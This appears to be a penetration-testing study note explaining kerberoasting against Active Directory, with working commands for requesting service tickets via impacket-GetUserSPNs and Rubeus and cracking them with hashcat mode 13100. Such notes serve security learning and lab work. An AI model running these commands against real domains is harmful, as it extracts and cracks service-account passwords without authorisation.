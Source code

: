 With kerberoasting we are requesting SPN's TGS to the DC. The user that can access the service, for the Windows AD design, can access also the SPN and then the TGS, in order to use the service. We will abuse a service ticket in order to crack the password of the service account. We can run the attack from Rubeus with a user in the AD, and will be targeted only the **Service Principal Names** linked to the account user.

From the Kali machine we can run the attack with

```shell
sudo impacket-GetUserSPNs -request -dc-ip <DC-IP> corp.com/<USER>
```

The `-request` flag is requesting the DC a TGS for every SPN the logged user has access to. Dumping the tickets could let us to the password because it contains password of the SPN in hash. The TGS ticket will begin with this format: `$krb5tgs$23$`.

From the Windows machine we can use Rubeus

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

Again now we copy the hash and we crack it with hashcat with the Kerberos code

```shell
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```
